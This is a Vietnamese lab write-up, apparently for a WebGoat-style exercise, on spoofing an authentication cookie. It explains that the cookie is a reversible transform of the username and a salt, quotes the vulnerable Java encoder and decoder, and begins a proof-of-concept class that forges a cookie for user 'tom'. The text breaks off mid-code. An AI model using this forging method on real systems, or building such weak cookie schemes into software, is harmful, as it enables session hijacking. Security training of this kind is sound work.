 ## **Spoofing an Authentication Cookie**

### Nguyên nhân lỗi

- Thuật toán mã hóa và giải mã đơn giản, dễ dàng để có thể crack và tìm được thông điệp gốc ban đầu.
- Cụ thể, dev đơn giản tạo ra cookie mã dựa vào `username + SALT (được tạo ngẫu nhiên thành sâu có 10 ký tự)` → sau đó đảo ngược chuỗi này → chuyển thành mã hex → cuối cùng là mã hóa base64.
- Quá trình đảo ngược cũng tương tự.

```java
public static String encode(final String value) {
    if (value == null) {
      return null;
    }

    String encoded = value.toLowerCase() + SALT;
    encoded = revert(encoded);
    encoded = hexEncode(encoded);
    return base64Encode(encoded);
  }

  public static String decode(final String encodedValue) throws IllegalArgumentException {
    if (encodedValue == null) {
      return null;
    }

    String decoded = base64Decode(encodedValue);
    decoded = hexDecode(decoded);
    decoded = revert(decoded);
    return decoded.substring(0, decoded.length() - SALT.length());
  }
```

- Dựa vào điều này, hacker có thể tạo ra một cookie hợp lệ của một người dùng nào đó từ username của họ và truy cập trái phép phiên đăng nhập của người dùng đó.

### POC

- Để truy cập vào tài khoản Tom thì cần tạo ra một cookie của tài khoản này.
- Code lại logic mã hóa của chương trình trên, sau đó truyền username là Tom vào để tạo ra được cookie.

```java
import org.apache.commons.lang3.RandomStringUtils;
import org.springframework.security.crypto.codec.Hex;

import java.nio.charset.StandardCharsets;
import java.util.Base64;

class SpoofCookie{
    private static final String SALT = RandomStringUtils.randomAlphabetic(10);
    
    public static void main(String[] args){
        String username = "tom";
        String cookie = encode(username);
        System.out.println(cookie);
    }

    public static String encode(final String value) {
        if (value == null) {
            return null;
        }

        String encoded = value.toLowerCase() + SALT;
```